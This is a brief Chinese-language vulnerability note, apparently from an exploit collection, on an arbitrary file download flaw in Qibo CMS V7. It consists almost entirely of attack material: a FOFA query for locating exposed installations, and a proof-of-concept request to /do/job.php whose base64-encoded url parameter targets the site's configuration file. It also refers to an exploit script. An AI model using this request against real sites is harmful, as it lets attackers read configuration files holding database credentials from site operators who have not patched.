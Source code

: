 # 齐博CMS V7任意文件下载漏洞

## 漏洞影响

```
齐博cms V7
```

## FOFA

```
app="齐博cms"
```

## Poc

```
/do/job.php?job=download&url=ZGF0YS9jb25maWcucGg8
```

ZGF0YS9jb25maWcucGg8  为base64编码后的文件名

综合验证和利用脚本见 Qibo_v7.py

